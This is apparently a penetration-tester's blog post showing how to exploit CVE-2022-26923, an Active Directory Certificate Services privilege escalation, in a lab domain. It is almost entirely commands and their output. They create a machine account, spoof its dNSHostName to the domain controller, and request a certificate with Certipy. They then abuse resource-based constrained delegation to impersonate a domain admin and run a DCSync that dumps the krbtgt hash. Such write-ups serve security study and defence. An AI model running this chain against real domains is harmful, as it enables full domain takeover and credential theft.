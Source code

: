 ```yaml
---
layout: post
title:  "bloodyAD and CVE-2022-26923"
author: soka
twitter: pentest_soka
date:   2022-05-11 18:12:00 +0200
categories: ad privesc
tags: ad privesc bloodyad kerberos authentication
---
```

A new ADCS privesc was released: CVE-2022-26923 with this [blogpost](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) after Microsoft patched it.
Here is an example on how to exploit this vulnerability with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and PKINIT not supported from Linux.

# Linux

We need to own a computer, either we pwned one or we can create one if `ms-DS-MachineAccountQuota`>0:

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes  'DC=crashlab,DC=local' ms-DS-MachineAccountQuota                     
{
    "ms-DS-MachineAccountQuota": 10
}
{% endhighlight %}

We create a Computer object `cve` in the LDAP:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'
Opening domain CRASHLAB...
Successfully added machine account cve$ with password CVEPassword1234*.

{% endhighlight %}

Then we set the attribute `dNSHostName` (empty when we created the object) to match the Domain Controller DNS Hostname: `CRASHDC.crashlab.local`.

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 setAttribute 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName '["CRASHDC.crashlab.local"]'
dNSHostName set successfully
{% endhighlight %}

To check if the attribute has been correctly set:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName                  
{
    "dNSHostName": "CRASHDC.crashlab.local"
}
{% endhighlight %}

Now we can use [Certipy](https://github.com/ly4k/Certipy) to request a certificate for the computer `cve`:
{% highlight bash %}
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

{% endhighlight %}

Now we'll try to get a TGT using [Certipy](https://github.com/ly4k/Certipy) with the certificate requested above:
{% highlight bash %}
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
{% endhighlight %}

PKINIT doesn't seem to work on this AD, let's try RBCD technique with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and its certificate authentication feature:
{% highlight bash %}
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 setRbcd 'CVE$' 'CRASHDC$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
{% endhighlight %}

Delegation rights are set up, we can now use [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` to impersonate a Domain admin (`emacron` in our case) on CRASHDC$ and fetch a TGT: 
{% highlight bash %}
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
{% endhighlight %}

Finally we'll use [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` to perform a DCSync with the exported TGT:
{% highlight bash %}

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
{% endhighlight %}
